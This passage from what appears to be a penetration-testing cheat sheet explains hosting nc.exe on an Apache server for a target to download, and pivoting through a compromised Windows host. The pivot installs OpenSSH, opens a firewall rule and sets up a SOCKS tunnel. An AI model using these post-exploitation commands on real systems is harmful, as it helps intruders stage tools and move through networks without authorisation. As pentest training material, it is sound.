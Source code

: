 #### Apache Server

* server 
Put your files into /var/www/html 

```shell
cp nc.exe /var/www/html
systemctl start apache2
```

* client

Get via web browser, wget or powershell...

### Windows Pivoting

#### Openssh for Tunneling

Once you got SYSTEM on the target machine. download: [openssh_for_windows](https://github.com/PowerShell/Win32-OpenSSH/releases)

```powershell
powershell -command "Expand-Archive 'C:\<path-to-zipped-openssh>\openssh.zip' c:\<path-to-where-you-whereever-you-want\"
```

Then install it:

```powershell
powershell -ExecutionPolicy Bypass -File c:\<path-to-unzipped-openssh-folder>\install-sshd.ps1
```

Now if you need, just adjust the firewall rules to your needs:

```powershell
powershell -Command "New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22"
```

Start the sshd service:

```powershell
net start sshd
```

After these steps a regular ssh tunnel would sufice:

From your linux machine:

```bash
$ ssh -ACv -D <tunnel_port> <windows-user>@<windows-ip>
```

done you have now a socks to tunnel through!!


##

# Resources
